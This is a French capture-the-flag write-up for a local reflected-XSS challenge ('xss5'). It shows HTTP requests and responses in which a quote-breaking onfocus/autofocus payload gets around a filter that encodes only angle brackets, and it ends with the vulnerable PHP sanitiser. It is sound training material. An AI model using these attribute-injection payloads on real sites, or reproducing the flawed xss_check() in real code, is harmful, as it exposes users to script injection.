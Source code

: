 # xss5

## Exploitation

Cinquième challenge. L'auteur indique qu'il encode maintenant les caractères `<` et `>` :&#x20;

![](<../../../.gitbook/assets/image (9).png>)

Je tente la payload `<script>alert(1)</script>` afin de vérifier l'encodage. Le mot clé n'est pas réfléchi dans le message d'erreur mais en tant que valeur de l'attribut HTML `value` :&#x20;

![](<../../../.gitbook/assets/image (20) (1).png>)

Et les chevrons sont encodés en entités HTML :&#x20;

```http
POST /xss5/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss5/

search=%3Cscript%3Ealert%281%29%3C%2F%3Cscript%3E&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2159
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="&lt;script&gt;alert(1)&lt;/&lt;script&gt;" placeholder="keyword" required>
</div>
```

Seulement les chevrons sont encodés, il m'est alors possible de réutiliser la même technique d'attaque qu'au challenge xss2, `whatever" onfocus="alert(1)" autofocus x="` :&#x20;

```http
POST /xss5/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss5/

search=whatever%22+onfocus%3D%22alert%281%29%22+autofocus+x%3D%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2160
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever" onfocus="alert(1)" autofocus x="" placeholder="keyword" required>
</div>
```

Et cela fonctionne :

![](<../../../.gitbook/assets/image (49).png>)

## Analyse du code source

Le mot clé est bien réfléchi en tant que valeur de l'attribut HTML `value` mais un assainissement est tout d'abord effectué grâce à la méthode `xss_check()`. Cette méthode remplace les chevrons `<` et `>` en entités HTML :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    // Converts only "<" and ">" to HTLM entities
    $input = str_replace("<", "&lt;", $data);
    $input = str_replace(">", "&gt;", $input);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```
